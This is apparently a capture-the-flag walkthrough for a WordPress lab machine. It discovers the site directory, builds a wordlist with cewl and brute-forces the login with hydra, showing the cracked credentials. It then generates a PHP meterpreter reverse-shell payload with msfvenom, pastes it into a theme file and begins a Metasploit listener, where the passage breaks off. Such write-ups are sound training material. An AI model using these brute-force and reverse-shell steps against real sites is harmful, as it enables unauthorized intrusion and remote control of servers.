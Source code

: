 
## Question 1
> **A web server is running on the target. What is the hidden directory which the website lives on?**
> **/retro**



### Manual site enumeration

Exploring posts on this Wordpress site we can find account with username Wade.  

Exploring further we can see that there is Wordpress's default login page on **/retro/wp-login.php**


Let's generate dictionary based on this site's content

```bash
cewl --meta -d 2 http://<TARGET IP>/retro -w wordlist.txt
```


With this dictionary we can try to log in into admin panel

```bash
hydra -L wordlist.txt -P wordlist.txt <TARGET IP> http-post-form "/retro/wp-login.php:log=^USER^&pwd=^PASS^:F=Lost your password?" -s 80

[80][http-post-form] host: <TARGET IP>   login: Wade   password: parzival
```

We can succesfuly login into wp-admin using credentails cracked by hydra
> Login: **Wade** 
> Pass: **parzival**




### Exploring wp-admin

Luckily, Wade is administrator and can edit themes files. We'll try to get shell from there.


## Genereate and upload payload

```bash
msfvenom -p php/meterpreter/reverse_tcp LHOST=<LOCAL IP> LPORT=53 -f raw > shell.php
```


Open one of theme's file and replace all content with your payload. _In my case it is comments.php_


#### Start listener

```
msfconsole

msf6 > use multi/handler
msf6 exploit(multi/handler) > set payload php/meterpreter/reverse_tcp
```
